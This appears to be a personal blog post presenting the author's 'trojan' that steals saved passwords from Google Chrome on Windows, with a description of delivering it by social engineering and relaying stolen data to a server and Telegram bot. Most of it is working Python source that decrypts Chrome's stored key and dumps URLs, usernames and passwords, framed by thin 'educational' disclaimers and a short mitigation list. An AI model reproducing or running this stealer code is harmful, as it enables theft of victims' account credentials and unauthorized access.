 ```yaml
---
title: "Trojan Google Chrome🔍"
date: 2025-01-24 12:36:02 +0330
categories: [Learning, Trojan]
tags: [Trojan, Python, Data]
description: "Stealing Google data with Trojan - Telegram Robot - Source Code - Photo"
image: assets/img/c-trojan/img.png
---
```



# Trojan Chrome: A Detailed Explanation

## ⚡ Overview
This project demonstrates how sensitive user data, such as saved passwords and login information stored in Google Chrome, can be accessed and potentially exploited using a Python-based tool. This type of script is often categorized as a "trojan" due to its malicious intent.

> **Warning:** This explanation is for educational purposes only. Unauthorized access to user data is illegal and unethical.

---

## 📃 How It Works

### Key Components
1. **Extracting Chrome's Secret Key**
   - Chrome encrypts saved passwords using the Windows DPAPI (Data Protection API). The script retrieves the encryption key from Chrome's `Local State` file.

2. **Decrypting Saved Passwords**
   - The script reads the `Login Data` SQLite database in Chrome's user data folder.
   - It decrypts passwords using the extracted secret key and AES decryption.

3. **Sending Data to a Remote Server**
   - After extracting the data, the script uploads it to a remote server via an HTTP POST request.

### Script Workflow
1. Locate Chrome's `Local State` file to fetch the encryption key.
2. Copy the `Login Data` database for analysis.
3. Query the database for saved credentials.
4. Decrypt credentials using the secret key.
5. Send the extracted data to a pre-configured remote server.

---
## 👀 My Trojan Project

### Key Components
 1. The structure of this project is based on social engineering, where the hacker must implement a Trojan on the target system to deceive the victim.
 2. The Trojan finds the victim's data as quickly as possible and converts the person's information, such as websites, emails, and saved passwords, to txt.
 3. Now the data is sent to my server and with the help of HTTP, the data is saved on the server and sent to the Telegram bot I created.
 4. For more information and usage, visit channel <strong></strong> 
  <a href="https://t.me/i2xAm1r" target="_blank">
      <i class="fab fa-telegram"></i> Telegram
### Photo :

<div style="text-align: center; margin: 20px 0;">
    <img src="assets/img/c-trojan/trojan.jpg" alt="Codespaces" width="750" height="200">
</div>
<div style="text-align: center; margin: 20px 0;">
    <img src="assets/img/c-trojan/telegram.png" alt="Codespaces" width="750" height="200">
</div>

---
## 💻 Code Walkthrough

```python
# Import necessary libraries
import os
import re
import json
import base64
import sqlite3
import win32crypt
from Crypto.Cipher import AES
import requests

# Define paths to Chrome's files
CHROME_PATH_LOCAL_STATE = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Local State" % os.environ['USERPROFILE'])
CHROME_PATH = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data" % os.environ['USERPROFILE'])

# Extract the secret key from Local State file
def get_secret_key():
    with open(CHROME_PATH_LOCAL_STATE, "r", encoding='utf-8') as file:
        local_state = json.load(file)
    encrypted_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    secret_key = win32crypt.CryptUnprotectData(encrypted_key[5:], None, None, None, 0)[1]
    return secret_key

# Decrypt saved passwords
def decrypt_password(ciphertext, secret_key):
    iv = ciphertext[3:15]
    encrypted_password = ciphertext[15:-16]
    cipher = AES.new(secret_key, AES.MODE_GCM, iv)
    return cipher.decrypt(encrypted_password).decode()

# Extract and decrypt data
def extract_data():
    secret_key = get_secret_key()
    db_path = os.path.join(CHROME_PATH, "Default", "Login Data")
    conn = sqlite3.connect(db_path)
    cursor = conn.cursor()
    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
    for url, username, password in cursor.fetchall():
        decrypted_password = decrypt_password(password, secret_key)
        print(f"URL: {url}, Username: {username}, Password: {decrypted_password}")
    conn.close()
```

---

## ✅ Ethical Considerations
- **Legality**: Accessing someone else’s data without permission is illegal and punishable under various laws.
- **Ethics**: Creating or distributing malicious software is unethical.
- **Responsibility**: This knowledge should only be used to enhance security awareness and protect systems from similar attacks.

---

## ⚙️ Mitigation Techniques
To protect against similar attacks:
1. Use strong and unique passwords for different accounts.
2. Regularly clear your browser’s saved credentials.
3. Enable two-factor authentication (2FA) for added security.
4. Keep your browser and operating system updated.
5. Use trusted antivirus and anti-malware solutions.

---

## 🤝 Disclaimer
This document and its accompanying code are provided for **educational purposes only**. The author is not responsible for any misuse or damage caused by the use of this information.

--- 
## Social Media

<a href="https://instagram.com/2xAm1r" target="_blank">
    <i class="fab fa-instagram"></i> Instagram
</a><br>

<a href="https://t.me/I2xAm1r" target="_blank">
    <i class="fab fa-telegram"></i> Telegram
</a><br>

<a href="https://github.com/i2xAm1r" target="_blank">
    <i class="fab fa-github"></i> GitHub
    
[![Discord server](https://discordapp.com/api/guilds/938143724565835848/embed.png?style=banner3)](https://discord.gg/WtPzSe94)

---


